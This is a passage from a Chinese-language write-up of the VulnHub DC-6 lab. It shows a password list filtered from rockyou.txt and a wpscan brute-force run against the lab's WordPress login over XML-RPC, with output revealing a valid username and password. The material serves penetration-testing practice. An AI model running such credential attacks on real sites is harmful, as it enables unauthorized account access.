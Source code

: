 可以看到有几个用户名，将它们保存到user.txt，然后准备个密码字典

```
┌──(root㉿kali)-[/usr/share/wordlists]
└─# cat rockyou.txt | grep k01 > /root/Desktop/vulnhub/DC-6/passwords.txt 
```

爆破一下它的密码

```
┌──(root㉿kali)-[~/Desktop/vulnhub/DC-6]
└─# wpscan --url http://wordy -U user.txt -P passwords.txt -t 50                   
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.24
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] Performing password attack on Xmlrpc against 5 user/s
[SUCCESS] - mark / helpdesk01                                                                                       
Trying jens / !lak019b Time: 00:05:48 <===============================       > (12552 / 15220) 82.47%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mark, Password: helpdesk01

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Aug 15 23:22:37 2023
[+] Requests Done: 12725
[+] Cached Requests: 5
[+] Data Sent: 6.225 MB
[+] Data Received: 7.742 MB
[+] Memory used: 265.383 MB
[+] Elapsed time: 00:05:56
```

可以看到爆破出一个用户名的密码，接下来我们用这个用户名登陆一下
